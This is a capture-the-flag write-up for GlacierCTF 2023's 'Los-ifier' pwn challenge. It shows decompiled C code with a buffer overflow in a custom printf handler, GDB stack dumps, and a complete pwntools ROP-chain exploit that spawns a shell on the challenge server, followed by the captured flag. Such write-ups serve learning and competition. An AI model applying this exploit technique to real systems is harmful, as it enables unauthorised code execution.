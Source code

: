 ```yaml
---
title: Los-ifier
type: writeup
date: 2023-11-24T20:00:00+02:00
description: Writeup for Los-ifier [GlacierCTF 2023]
author: PineBel
tags:
- pwn
draft: false
---
```


## Challenge Description:

Normal binary for normal people.

## Intuition 


First we run a checksec and a file on the binary and we can see that it's statically linked and that it lacks PIE. 
When first opening the binary in Ghidra we see a simple main function with nothing special, we can also observe that there is a function named setup() called, let's investigate. When opening the function, there is an interesting call made : register_printf_specifier(0x73,printf_handler,printf_arginfo_size). What this actually does is handling the %s fromat  specifier from the printf() function, let's see how the printf is handled in the printf_handler function. We observe another weird function, named loscopy() which takes three parameters. The first one is the address of local_58 + 3, the second one is our input and the last one is 10 ('\n'). Opening the loscopy function  we can see an overflow vulnerability inside of the while. 
 

 ```c
 undefined8 main(void)

{
  char local_108 [256];
  
  setup();
  fgets(local_108,0x100,(FILE *)stdin);
  printf("-> %s\n",local_108);
  return 0;
}

void setup(void)

{
  setbuf((FILE *)stdin,(char *)0x0);
  setbuf((FILE *)stdout,(char *)0x0);
  register_printf_specifier(0x73,printf_handler,printf_arginfo_size);
  return;
}

size_t printf_handler(FILE *param_1,undefined8 param_2,undefined8 *param_3)

{
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  size_t local_18;
  undefined8 local_10;
  
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_10 = *(undefined8 *)*param_3;
  local_58 = 0x736f4c;
  loscopy((long)&local_58 + 3,local_10,10);
  local_18 = strlen((char *)&local_58);
  fwrite(&local_58,1,local_18,param_1);
  return local_18;
}


void loscopy(char *param_1,char *param_2,char param_3)

{
  char *local_18;
  char *local_10;
  
  local_18 = param_2;
  local_10 = param_1;
  while (param_3 != *local_18) {
    *local_10 = *local_18;
    local_18 = local_18 + 1;
    local_10 = local_10 + 1;
  }
  return;
}

```
 
 ## Solution 
 
 Let's see what we can get from GDB, putting a breakpoint in the loscopy() function we can see that we can overwrite the __printf_function_invoke() with our input.  

```
[#0] 0x40182c → loscopy()
[#1] 0x4018d0 → printf_handler()
[#2] 0x43c3b7 → __printf_function_invoke()
[#3] 0x405672 → printf_positional()
[#4] 0x4072b7 → __printf_buffer()
[#5] 0x409181 → __vfprintf_internal()
[#6] 0x404d19 → printf()
[#7] 0x4019c6 → main()

gef➤  x/20g 0x00007fffffffc940
0x7fffffffc940: 0x00007fffffffc9c0      0x00000000004018d0
0x7fffffffc950: 0x0000000000000000      0x00007fffffffc9e0
0x7fffffffc960: 0x00007fffffffcc30      0x00007fffffffca00
0x7fffffffc970: 0x4141414141736f4c      0x4141414141414141
0x7fffffffc980: 0x0000414141414141      0x0000000000000000
0x7fffffffc990: 0x0000000000000000      0x0000000000000000
0x7fffffffc9a0: 0x0000000000000000      0x0000000000000000
0x7fffffffc9b0: 0x0000000000000000      0x00007fffffffdc00
0x7fffffffc9c0: 0x00007fffffffc9e0      0x000000000043c3b7
0x7fffffffc9d0: 0x0000000000000000      0x00007fffffffcc30
```


The question now is, with what do we overwrite the __printf_function_invoke() address. Remembering that it's statically linked we can craft a payload and invoke a shell. First we need to see how much padding there is needed  10*8+5 bytes. To create this exploit we use a small ROP chain (gadgets were found with ROPgadget) , first we need to put the “/bin/sh” address into RDI (system's argument register) and then we should return to system. Let's see if it works! 

Getting the addresses of system and /bin/sh:

```
gef➤  p system
$1 = {<text variable, no debug info>} 0x404ae0 <system>

gef➤  search-pattern "/bin/sh"
[+] Searching '/bin/sh' in memory
[+] In '/home/kali/CTF/Glacier/Losifier/Losifier/chall'(0x478000-0x4a0000), permission=r--
  0x478010 - 0x478017  →   "/bin/sh" 
  0x4784d9 - 0x4784e0  →   "/bin/sh" 
```


Initial payload:
```py
from pwn import *

target = remote( "chall.glacierctf.com" ,13392 )
p = b"\x00"*(10*8+5)


p += p64(0x0000000000402188) # pop rdi; ret
p += p64(0x478010) # pointer to /bin/sh
p += p64(0x404ae0) # system


target.sendline(p)
target.interactive()
```


Mhmm, it doesn't work, let's see why. The error we got is: stopped 0x4047c8 in do_system (), reason: SIGSEGV. The problem is that the stack should be aligned in 16-byte bounderies, to fix this, we use a ret gadget for padding (found with ROPGadget). So our final payload looks like this:

```py
from pwn import *

target = remote( "chall.glacierctf.com" ,13392 )
p = b"\x00"*(10*8+5)

p += p64(0x000000000040101a) # ret for stack alignment 
p += p64(0x0000000000402188) # pop rdi; ret
p += p64(0x478010) # pointer to /bin/sh
p += p64(0x404ae0) # system


target.sendline(p)
target.interactive()
```

## Flag 

Running the script we get:

```
$ python3 payload_clever.py
[+] Opening connection to chall.glacierctf.com on port 13392: Done
[*] Switching to interactive mode
$ ls
app
flag.txt
$ cat flag.txt
gctf{th1s_1s_th3_@riginol_fl@9}
```



